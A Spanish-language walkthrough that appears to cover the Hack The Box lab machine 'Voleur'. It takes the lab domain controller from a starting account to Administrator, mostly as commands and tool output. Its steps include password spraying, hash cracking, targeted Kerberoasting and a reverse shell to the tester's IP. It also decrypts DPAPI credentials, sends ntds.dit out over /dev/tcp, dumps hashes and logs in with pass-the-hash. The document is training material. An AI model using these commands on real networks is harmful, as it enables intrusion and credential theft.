## Box Info

| Name                  | Outbound         | 
| :-------------------- | ---------------: |
| Release Date          | 05 Jul, 2025     |
| OS                    | Windows          |
| Rated Difficulty      | Medium           |

```zsh
ping -c 3 10.10.11.76      
PING 10.10.11.76 (10.10.11.76) 56(84) bytes of data.
64 bytes from 10.10.11.76: icmp_seq=1 ttl=127 time=131 ms
64 bytes from 10.10.11.76: icmp_seq=2 ttl=127 time=131 ms
64 bytes from 10.10.11.76: icmp_seq=3 ttl=127 time=130 ms
```

Machine Information

As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: 

```powershell
ryan.naylor / HollowOct31Nyt
```


```zsh
sudo nmap -p- --open --min-rate 5000 -n -vv -Pn 10.10.11.76 -oG allPorts

nmap -sCV -p 53,88,135,139,389,445,464,593,636,2222,3268,3269,5985,9389,49664,49668,52377,63316,63317,63318,63344 10.10.11.76 -oN targeted
```

```zsh
# Nmap 7.95 scan initiated Sun Jul 20 13:36:06 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 53,88,135,139,389,445,464,593,636,2222,3268,3269,5985,9389,49664,49668,52377,63316,63317,63318,63344 -oN targeted 10.10.11.76
Nmap scan report for 10.10.11.76
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-21 01:36:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2222/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
52377/tcp open  msrpc         Microsoft Windows RPC
63316/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
63317/tcp open  msrpc         Microsoft Windows RPC
63318/tcp open  msrpc         Microsoft Windows RPC
63344/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-07-21T01:37:07
|_  start_date: N/A
|_clock-skew: 7h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

```zsh
echo "10.10.11.76 voleur.htb" | sudo tee -a /etc/hosts
```

```zsh
nxc smb 10.10.11.76                                                                                                                       
SMB         10.10.11.76     445    10.10.11.76      [*]  x64 (name:10.10.11.76) (domain:10.10.11.76) (signing:True) (SMBv1:False) (NTLM:False)
```

Validamos las credenciales que tenemos.

```zsh
nxc smb 10.10.11.76 -u 'ryan.naylor' -p 'HollowOct31Nyt' --shares

SMB         10.10.11.76     445    10.10.11.76      [*]  x64 (name:10.10.11.76) (domain:10.10.11.76) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.76     445    10.10.11.76      [-] 10.10.11.76\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED
```

#### Krb5.conf
 
Modificaremos el archivo krb5.conf que se encuentra en la ruta ``/etc/krb5.conf`` si no la tienes creala.

```bash
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    renew_lifetime = 7d
    forwardable = true

[realms]
    VOLEUR.HTB = {
        kdc = 10.10.11.76
        admin_server = 10.10.11.76
        default_domain = voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
```

Aun asi nos da problemas al intentar enumerar usuarios con smb.

```bash
SMB         voleur.htb      445    voleur           [-] htb\ryan.naylor:HollowOct31Nyt [Errno Connection error (HTB:88)] [Errno -2] Name or service not known
```

- KRB5CCNAME

Es otra forma 

```zsh
impacket-getTGT 'voleur.htb/ryan.naylor:HollowOct31Nyt' -dc-ip 10.10.11.76
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069

Como root ejecutaremos el siguiente comando para poder sincronizar el reloj al dominio.

```
timedatectl set-ntp off
```

```
rdate -n voleur.htb
```

Ahora si ejecutamos el comando para obtener un ccache y exportarlo como KRB5CCNAME

```zsh
impacket-getTGT 'voleur.htb/ryan.naylor:HollowOct31Nyt' -dc-ip 10.10.11.76
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ryan.naylor.ccache
```

```zsh
export KRB5CCNAME=ryan.naylor.ccache
```

Ahora podemos validar con smb y ldap

```zsh
nxc ldap dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k

LDAP        dc.voleur.htb   389    DC               [*] None (name:DC) (domain:voleur.htb)
LDAP        dc.voleur.htb   389    DC               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
```

```zsh
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k

SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
```

## Users Enumeration

Ahora que hemos validado, podemos enumerar usuarios.

```zsh
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --rid-brute | grep SidTypeUser
```

Guardamos en un archivo users.

```zsh
cat users| awk '{print $6, $NF}' | cut -d '\' -f2 | cut -d '(' -f1
```

```
Administrator 
Guest 
krbtgt 
DC$ 
ryan.naylor 
marie.bryant 
lacey.miller 
svc_ldap 
svc_backup 
svc_iis 
jeremy.combs 
svc_winrm 
```

## Password Spraying

```zsh
nxc smb dc.voleur.htb -u users -p 'HollowOct31Nyt' -k --continue-on-success
```

Pero no hubo algun usuario con la misma contraseña.

## BloodHound

```zsh
bloodhound-python -d voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k -ns 10.10.11.76 -c All --zip -c All
```

Usamos bloodhound para ver si teniamos algun atributo como ryan.naylor hacia algun objeto del domain controller pero no encontramos nada.

```zsh
nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --shares

SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb   445    dc               [*] Enumerated shares
SMB         dc.voleur.htb   445    dc               Share           Permissions     Remark
SMB         dc.voleur.htb   445    dc               -----           -----------     ------
SMB         dc.voleur.htb   445    dc               ADMIN$                          Remote Admin
SMB         dc.voleur.htb   445    dc               C$                              Default share
SMB         dc.voleur.htb   445    dc               Finance                         
SMB         dc.voleur.htb   445    dc               HR                              
SMB         dc.voleur.htb   445    dc               IPC$            READ            Remote IPC
SMB         dc.voleur.htb   445    dc               IT              READ            
SMB         dc.voleur.htb   445    dc               NETLOGON        READ            Logon server share 
SMB         dc.voleur.htb   445    dc               SYSVOL          READ            Logon server share 
```

https://www-netexec-wiki.translate.goog/smb-protocol/spidering-shares?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc&_x_tr_hist=true#using-module-spider_plus

```zsh
 nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k -M spider_plus
```

```js
{
    "IT": {
        "First-Line Support/Access_Review.xlsx": {
            "atime_epoch": "2025-01-31 04:09:27",
            "ctime_epoch": "2025-01-29 04:39:51",
            "mtime_epoch": "2025-05-29 18:23:36",
            "size": "16.5 KB"
        }
    },
```

```zsh
nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k -M spider_plus -o DOWNLOAD_FLAG=True
```



#### Crack Hash with Office2John

```zsh
office2john Access_Review.xlsx > hash
```

```zsh
john hash -w=/usr/share/wordlists/rockyou.txt   

Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 128/128 AVX 4x / SHA512 128/128 AVX 2x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football1        (Access_Review.xlsx)     
1g 0:00:00:02 DONE (2025-07-21 00:35) 0.3344g/s 264.8p/s 264.8c/s 264.8C/s football1..capricorn
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```
football1
```



Tenemos 3 contraseñas de las cuales intentaremos realizar un password spraying attack.

```zsh
nxc smb dc.voleur.htb -u users -p passw -k --continue-on-success
```

```zsh
voleur.htb\svc_iis:N5pXyW1VqM7CZ8 
voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
```

Como ninguno de estos 2 usuarios es parte del grupo remote management, con bloodhound podremos enumerar si alguno tiene algun atributo hacia un objeto del DC.



Para el caso del usuario ``svc_ldap`` tenemos que tiene el atributo WriteSPN hacia el objeto `svc_winrm` y algo a destacar es que este usuario es parte del grupo `RESTORE_USERS` muy importante ya que en el archivo excel mencionan que el usuario `todd.wolfe` fue borrado.

```zsh
python3 targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -d voleur.htb
```



```zsh
john hash3 -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
AFireInsidedeOzarctica980219afi (?)     
1g 0:00:00:03 DONE (2025-07-21 01:12) 0.2680g/s 3075Kp/s 3075Kc/s 3075KC/s AHANACK6978012..AEGIES
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```zsh
svc_winrm : AFireInsidedeOzarctica980219afi
```

Para autenticarse tendremos que generar de nuevo un archivo KRB5 para iniciar sesion en winrm.

```zsh
impacket-getTGT 'voleur.htb/svc_winrm:AFireInsidedeOzarctica980219afi' -dc-ip 10.10.11.76
```

```zsh
KRB5CCNAME=svc_winrm.ccache evil-winrm -i dc.voleur.htb -r voleur.htb
```


En este punto el usuario svc_winrm no es de mucha utilidad y como anteriormente mencionamos el usuario ``svc_ldap`` esta en el grupo de `RESTORE_USERS` que nos podria ser de utilidad para restaurar la cuenta del usuario ``todd_wolfe``, pero como svc_ldap no es parte de remote_management tendremos que a partir de svc_winrm enviarnos una powershell median RunasCs

```zsh
.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell.exe -r 10.10.14.18:4444
```



Con este comando nos filtra y lista aquellos objetos (usuarios) que fueron borrados.

```zsh
Get-ADObject -Filter {isDeleted -eq $true -and objectClass -eq "user"} -IncludeDeletedObjects
```

```zsh
Deleted           : True
DistinguishedName : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
Name              : Todd Wolfe
                    DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
ObjectClass       : user
ObjectGUID        : 1c6b1deb-c372-4cbb-87b1-15031de169db
```

Para restaurarlo simplemente le pasamos el ObjectGUID

```zsh
Restore-ADObject -Identity "1c6b1deb-c372-4cbb-87b1-15031de169db"
```

Para verificar si se restauro:

```powershell
net user /domain
```



Recordemos que tenemos la contraseña de `todd.wolfe` que la encontramos en el excel.

```zsh
bloodhound-python -d voleur.htb -u todd.wolfe -p 'NightT1meP1dg3on14' -k -ns 10.10.11.76 -c All --zip -c All
```



```ZSH
 impacket-getTGT 'voleur.htb/todd.wolfe:NightT1meP1dg3on14' -dc-ip 10.10.11.76
```

```
export KRB5CCNAME=todd.wolfe.ccache
```

```zsh
impacket-smbclient -k dc.voleur.htb
```



Con el impacket-smbclient podemos enumerar de manre mas facil los recursos compartidos.
En el recurso compartido de `IT` hay un directorio de la segunda linea de soporte que es donde se encuentra el usuario todd.wolfe.



Vemos toda la raiz compartida del usuario todd.wolfe.



## DPAPI

Descifrar la clave maestra para obtener la clave offline.

La API de protección de datos (DPAPI) es un componente interno del sistema Windows. Permite que diversas aplicaciones almacenen datos confidenciales (p. ej., contraseñas). Los datos se almacenan en el directorio de usuarios y están protegidos por claves maestras específicas del usuario, derivadas de su contraseña. Suelen estar ubicados en:

```powershell
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Aplicaciones como Google Chrome, Outlook, Internet Explorer y Skype utilizan la API DPAPI. Windows también utiliza esta API para información confidencial, como contraseñas de Wi-Fi, certificados, contraseñas de conexión RDP y mucho más.

A continuación, se muestran las rutas comunes de archivos ocultos que suelen contener datos protegidos por la API DPAPI.

```
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

Nos traemos los archivos

```zsh
get /Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88

get /Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3
```

- MasterKeyFile

```zsh
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
```

```zsh
[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

- Credential

```zsh
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

```zsh
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
```

Vemos que jeremy.combs ahora esta en el grupo de `THIRD-LINE TECHNICIANS` 



```ZSH
 impacket-getTGT 'voleur.htb/jeremy.combs:qT3V9pLXyN7W4m' -dc-ip 10.10.11.76
```

```
export KRB5CCNAME=jeremy.combs.ccache
```

```zsh
impacket-smbclient -k dc.voleur.htb                                        

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Mon Jul 21 01:32:26 2025 ..
drw-rw-rw-          0  Thu Jan 30 11:11:29 2025 Third-Line Support
# cd Third-Line Support
l# ls
drw-rw-rw-          0  Thu Jan 30 11:11:29 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
-rw-rw-rw-       2602  Thu Jan 30 11:11:29 2025 id_rsa
-rw-rw-rw-        186  Thu Jan 30 11:07:35 2025 Note.txt.txt
# get id_rsa
# get note.txt.txt
# 
```

`chmod 600 id_rsa`

```zsh
cat note.txt.txt

Jeremy,

I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.

Please see what you can set up.

Thanks,

Admin
```

Tenemos un id_rsa pero no sabemos para que usuario es, para esto podemos usar ssh-keygen para darnos una pista.

```zsh
ssh-keygen -y -f ./id_rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCoXI8y9RFb+pvJGV6YAzNo9W99Hsk0fOcvrEMc/ij+GpYjOfd1nro/ZpuwyBnLZdcZ/ak7QzXdSJ2IFoXd0s0vtjVJ5L8MyKwTjXXMfHoBAx6mPQwYGL9zVR+LutUyr5fo0mdva/mkLOmjKhs41aisFcwpX0OdtC6ZbFhcpDKvq+BKst3ckFbpM1lrc9ZOHL3CtNE56B1hqoKPOTc+xxy3ro+GZA/JaR5VsgZkCoQL951843OZmMxuft24nAgvlzrwwy4KL273UwDkUCKCc22C+9hWGr+kuSFwqSHV6JHTVPJSZ4dUmEFAvBXNwc11WT4Y743OHJE6q7GFppWNw7wvcow9g1RmX9zii/zQgbTiEC8BAgbI28A+4RcacsSIpFw2D6a8jr+wshxTmhCQ8kztcWV6NIod+Alw/VbcwwMBgqmQC5lMnBI/0hJVWWPhH+V9bXy0qKJe7KA4a52bcBtjrkKU7A/6xjv6tc5MDacneoTQnyAYSJLwMXM84XzQ4us= svc_backup@DC
```

### SSH

```zsh
ssh -i id_rsa svc_backup@voleur.htb -p 2222
```


## Privilege Escalation
### NTDS

Previamente ya nos hemos enfrentado con estos archivos en la maquina [Blackfield](https://racc0x.github.io/posts/blackfield/#privilege-escalation)

```zsh
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/Active Directory$ ls
ntds.dit  ntds.jfm
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/Active Directory$ 
```

```zsh
kali > nc -nlvp 8888 > ntds.dit

svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/Active Directory$ cat ntds.dit > /dev/tcp/10.10.14.18/8888

kali > nc -nlvp 8888 > SYSTEM

svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/registry$ cat SYSTEM > /dev/tcp/10.10.14.18/8888
```

```zsh
impacket-secretsdump -ntds ntds.dit -system SYSTEM local
```

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```zsh
impacket-getTGT 'voleur.htb/Administrator' -hashes ':e656e07c56d831611b577b160b259ad2' -dc-ip 10.10.11.76

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Administrator.ccache
```

```zsh
KRB5CCNAME=Administrator.ccache evil-winrm -i dc.voleur.htb -r voleur.htb
```

